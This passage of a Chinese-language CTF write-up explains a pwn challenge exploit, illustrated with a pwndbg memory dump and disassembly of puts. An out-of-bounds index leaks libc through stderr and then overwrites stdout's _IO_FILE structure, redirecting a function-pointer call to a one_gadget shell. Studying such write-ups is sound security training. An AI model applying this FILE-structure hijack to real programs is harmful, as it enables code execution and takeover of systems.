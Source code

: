 `_IO_2_1_stderr_`其后的内存分布如下：

```assembly
pwndbg> x/200xg 0x7fce72a43540
0x7fce72a43540 <_IO_2_1_stderr_>:	0x00000000fbad2087	0x00007fce72a435c3
0x7fce72a43550 <_IO_2_1_stderr_+16>:	0x00007fce72a435c3	0x00007fce72a435c3
0x7fce72a43560 <_IO_2_1_stderr_+32>:	0x00007fce72a435c3	0x00007fce72a435c3
0x7fce72a43570 <_IO_2_1_stderr_+48>:	0x00007fce72a435c3	0x00007fce72a435c3
0x7fce72a43580 <_IO_2_1_stderr_+64>:	0x00007fce72a435c4	0x0000000000000000
0x7fce72a43590 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7fce72a435a0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x00007fce72a43620
0x7fce72a435b0 <_IO_2_1_stderr_+112>:	0x0000000000000002	0xffffffffffffffff
0x7fce72a435c0 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00007fce72a44770
0x7fce72a435d0 <_IO_2_1_stderr_+144>:	0xffffffffffffffff	0x0000000000000000
0x7fce72a435e0 <_IO_2_1_stderr_+160>:	0x00007fce72a42660	0x0000000000000000
0x7fce72a435f0 <_IO_2_1_stderr_+176>:	0x0000000000000000	0x0000000000000000
0x7fce72a43600 <_IO_2_1_stderr_+192>:	0x0000000000000000	0x0000000000000000
0x7fce72a43610 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x00007fce72a416e0
0x7fce72a43620 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007fce72a436a3
0x7fce72a43630 <_IO_2_1_stdout_+16>:	0x00007fce72a436a3	0x00007fce72a436a3
0x7fce72a43640 <_IO_2_1_stdout_+32>:	0x00007fce72a436a3	0x00007fce72a436a3
0x7fce72a43650 <_IO_2_1_stdout_+48>:	0x00007fce72a436a3	0x00007fce72a436a3
0x7fce72a43660 <_IO_2_1_stdout_+64>:	0x00007fce72a436a4	0x0000000000000000
0x7fce72a43670 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000
0x7fce72a43680 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007fce72a428e0
0x7fce72a43690 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff
0x7fce72a436a0 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007fce72a44780
0x7fce72a436b0 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000
0x7fce72a436c0 <_IO_2_1_stdout_+160>:	0x00007fce72a427a0	0x0000000000000000
0x7fce72a436d0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7fce72a436e0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7fce72a436f0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007fce72a416e0
0x7fce72a43700 <stderr>:	0x00007fce72a43540	0x00007fce72a43620
0x7fce72a43710 <stdin>:	0x00007fce72a428e0	0x00007fce7269eb70
```

`read`读的数据足以修改`_IO_2_1_stdout_`的`_IO_FILE`结构体

`write`打印的数据足以泄漏`stderr`中的`_IO_2_1_stderr_`地址

> `_IO_2_1_stderr_`在libc中

利用的思路很简单，先`show(-16)`泄漏libc，再`mod(-16)`覆盖`_IO_2_1_stdout_`的`_IO_FILE`结构体，`mod`函数执行完毕后会调用`puts`打印菜单，于是会用到`_IO_2_1_stdout_`，只要把其中的函数指针改写为`one_gadget`即可getshell

关于`_IO_FILE`结构体，[这篇](https://xz.aliyun.com/t/3344)文章有介绍，讲的比较明白

我的做法就比较简单粗暴了......直接跟进`puts`函数，通过漏洞布置合适的数据，让程序顺利执行到这里：

```assembly
   0x7fce726ed788 <puts+248>    cmp    eax, -1
   0x7fce726ed78b <puts+251>    je     puts+152 <0x7fce726ed728>
    ↓
   0x7fce726ed728 <puts+152>    mov    rax, qword ptr [rdi + 0xd8]
   0x7fce726ed72f <puts+159>    mov    rdx, rbx
   0x7fce726ed732 <puts+162>    mov    rsi, r12
 ► 0x7fce726ed735 <puts+165>    call   qword ptr [rax + 0x38] <0x7fce726f71e0>
```
